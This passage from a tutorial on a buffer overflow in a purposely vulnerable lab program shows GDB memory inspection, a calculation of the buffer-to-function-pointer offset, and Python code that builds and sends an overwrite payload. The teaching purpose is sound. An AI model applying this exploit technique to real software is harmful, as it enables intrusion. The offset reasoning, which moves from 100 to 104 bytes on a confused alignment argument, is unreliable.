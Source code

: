 Now we are at the most important stage. We run the command in the form "x/16gx VALUE". The meaning of this command is to **"examine memory (x), show 16 units of value (/16), show in giant word format (each 8 bits, g) and show in hex (x)"**.

*Vulnerability Detection*

**BINGO!** We have successfully detected the vulnerability. Now we move on to calculation. According to these values, our starting variable is **0x4052a0**. **If you look carefully at line 0x405300, you can see the value 0x00401176.** When we examine this value,

  - 0x405300 -> 41
  - 0x405301 -> 41
  - 0x405302 -> 41
  - 0x405303 -> 41
  - 0x405304 -> 76
  - 0x405305 -> 11
  - 0x405306 -> 40
  - 0x405307 -> 00

So actually the **0x405304 (large value)** value is **0x4052a0** when we subtract the values from each other, we get the hex value **0x000064**. When we calculate, **6*16+4*1=100** means that **the islemYapPtr function pointer starts exactly 100 bytes after the beginning of the kullaniciVerisi buffer area.** However, since 100 does not divide 8 exactly, the next closest value, 104, should be our PADDING_SIZE value.

Now we start writing our exploitation code with all this information. I use Python language for the exploitation code. You can write in different languages.

Let's determine our static variables:

```python
# Name of the vulnerable program
VICTIM_PROGRAM = "./zafiyetli_sunucu"

# Static address we found with objdump.
HARDCODED_ADDRESS = 0x401166
# Our padding size
PADDING_SIZE = 104
```

Then we write the code that starts the program:

```python
 try:
        p = subprocess.Popen([VICTIM_PROGRAM], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    except FileNotFoundError:
        print(f"[!] ERROR: '{VICTIM_PROGRAM}' not found. Did you compile the C++ code with -no-pie?")
        sys.exit(1)
```

Now we write the stage that prepares our payloads:

```python
padding = b'A' * PADDING_SIZE
overwrite_address = struct.pack("<Q", HARDCODED_ADDRESS)
payload = padding + overwrite_address
print(f"[*] Payload created as {len(payload)} bytes.")
print("[*] Sending payload to victim program...")
```
